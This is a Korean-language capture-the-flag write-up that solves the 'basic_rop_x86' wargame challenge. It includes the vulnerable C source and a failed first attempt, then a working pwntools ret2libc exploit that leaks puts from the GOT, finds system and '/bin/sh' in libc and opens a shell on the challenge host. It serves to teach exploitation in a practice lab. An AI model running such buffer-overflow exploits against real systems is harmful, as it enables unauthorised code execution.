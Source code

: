 # basic_rop_x86

**실습 코드**  

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}

```

전에 한 실습이랑 아키텍처 제외하고는 동일한 문제인거같다.    
복습한단 마인드로 다시 한번 풀어보겠다  

우선 실습환경 구축을 해주고  

```bash
$ docker build -t temp .
$ docker run -d -p 10001:10001 --name temp_container temp
```

checksec 으로 보호 기법을 확인한다.  

![image](https://github.com/user-attachments/assets/72cf48a4-ef61-4020-b7b6-bd6759f8615c)

NX만 들어간 걸 확인했으니   

read 함수를 이용해 buf에 오버플로우를 일으켜  
read@got를 write 함수로 읽어오겠다.  

<br>

![image](https://github.com/user-attachments/assets/3c44b3ad-2e3a-4a59-8d20-ecb79fbab5dc)


그러기 위해서 리턴 가젯을 읽어오려 했는데, 생각해둔 가젯이 없었다.    
32비트 아키텍처는 인자를 `ebx` `ecx` `edx` `esi` `edi` `ebp` 순으로 받는데 ebx밖에 없다.   

그러면 write가 아닌 다른 함수로 읽어와야겠다.   

어떤 함수들이 링킹 되어있을지 보기 위해 got 명령어를 쳐봤다.   

<br>

![image](https://github.com/user-attachments/assets/66f152e4-1a2b-4c57-a71f-216be5fa3225)

puts 함수가 있다.   
다시 c 코드를 살펴보니 `alarm_handler()` 함수에서 `puts` 함수를 사용했다  

이제 스택 구조만 확인해보고 바로 코드를 짜보자  

<br>

![image](https://github.com/user-attachments/assets/e25c59c5-7fcf-4d12-b9cb-f9dd99e040ec)

![image](https://github.com/user-attachments/assets/c58f5d8a-e7bf-4f8f-8c24-4231b204ee5b)

read 전에 브레이크를 걸고 HIJK 가 섞인 0x48바이트 문자열을 보냈다  

스택 구조가 확인되었으니   
쓰레기값 72바이트(0x48) 뒤에 원하는 값을 적으면 되겠다  

<br>

![image](https://github.com/user-attachments/assets/ef600857-d62f-4e63-acf7-d0e0c1365cab)

리턴 가젯  
- `pop ebx ; ret` : `0x080483d9`
- `ret` : `0x080483d9`

`/bin/sh` 는 `libc.so.6` 에 있는 것도 아니까 이제 정말 다 구했다   

위 정보들로 코드를 작성하면  

**코드**

```bash
from pwn import *

p = remote('localhost', 10001)
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

pop_ebx = 0x080483d9
ret = 0x080483d9

read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts']
puts_got = e.got['puts']
main_addr = e.symbols['main']

payload = b'A'*0x44
payload += p32(pop_ebx)
payload += p32(read_got)
payload += p32(puts_plt)
payload += p32(main_addr)

p.send(payload)
p.recvuntil(b'A'*0x40)
leaked_read = u32(p.recvn(4))
slog('leaked puts', leaked_read)

"""libc_base = leaked_read - libc.symbols['read']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

payload = b'A'*0x48
payload += p32(ret)
payload += p32(pop_ebx)
payload += p32(binsh)
payload += p32(system)

p.send(payload)
p.interactive()"""
```

이렇게 했는데 안됐다.  
그래서 운영체제 비트수에 차이가 있구나 싶어서 찾아보니,  

<br>

**32비트 운영체제 payload 구성**  

```bash
payload += p32(func)         # call func
payload += p32(ret_after)    # 리턴 주소
payload += p32(arg1)         # func의 인자
```

이렇게 적으면 된다고 한다.   
두 환경에서 함수 인자 전달 방식이 달라서 payload도 달라진다  

아무튼 저 구조에 맞게 다시 적어보면  

**진짜 코드**

```bash
from pwn import *

p = remote('host3.dreamhack.games', 8593)
#p = remote('localhost', 10001)
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

puts_plt = e.plt['puts']
puts_got = e.got['puts']
main_addr = e.symbols['main']

payload = b'A'*0x48
payload += p32(puts_plt)
payload += p32(main_addr)
payload += p32(puts_got)

p.send(payload)
p.recvuntil(b'A'*0x40)
leaked_puts = u32(p.recvn(4))
slog('leaked puts', leaked_puts)

libc_base = leaked_puts - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

payload = b'A'*0x48
payload += p32(system)
payload += p32(main_addr)
payload += p32(binsh)

p.send(payload)
p.interactive()
```

사실상 리턴가젯이 없어도 되는 간단한 문제였다  
이걸 보내보면  


<br>

![image](https://github.com/user-attachments/assets/c9861270-c74a-4647-ae20-c3ebba20de86)

이렇게 답을 얻을 수 있다.
